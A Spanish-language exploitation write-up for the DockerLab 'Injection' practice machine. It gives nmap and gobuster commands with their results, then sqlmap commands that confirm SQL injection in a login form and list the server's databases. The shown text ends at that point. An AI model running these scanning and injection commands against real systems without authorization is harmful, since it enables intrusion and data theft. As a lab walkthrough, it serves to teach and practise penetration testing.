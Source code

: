 # 🚀 Informe de Explotación - Máquina Injection (DockerLab)

## 📌 Información General
- **Target IP:** `172.17.0.2`
- **Sistema Operativo:** Linux Ubuntu 22.04 (jammy)
- **Tecnologías:** Apache 2.4.52, PHP, MySQL (MariaDB)

---

## 🔍 1) Escaneo Inicial con `nmap`
```bash
nmap -sCV -sS -n -Pn -p- 172.17.0.2
```
**Resultados:**  
| Puerto | Servicio | Versión |
|--------|----------|-------------|
| 22/tcp | SSH      | OpenSSH 8.9p1 (Ubuntu) |
| 80/tcp | HTTP     | Apache 2.4.52 (Ubuntu) |

---

## 🔎 2) Enumeración con `Gobuster`
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
```
**Resultados:**  
- `/index.php` (200 - Página principal)  
- `/config.php` (200 - Archivo vacío)  
- `/server-status` (403 - Acceso denegado)  

---

## 💀 3) Explotación de SQL Injection con `sqlmap`
### 🔹 Detectando parámetros vulnerables
```bash
sqlmap -u "http://172.17.0.2/index.php" --forms --crawl=2 --batch
```
✔ **Confirmado:** `name` es vulnerable a SQL Injection.  

### 🔹 Extracción de Bases de Datos
```bash
sqlmap -u "http://172.17.0.2/index.php" --data "name=admin&password=admin&submit=Login" --dbs --batch
```
✔ Bases de datos encontradas:  
- `information_schema`
- `mysql`
- `performance_schema`
- `register` (la más relevante)
- `sys`
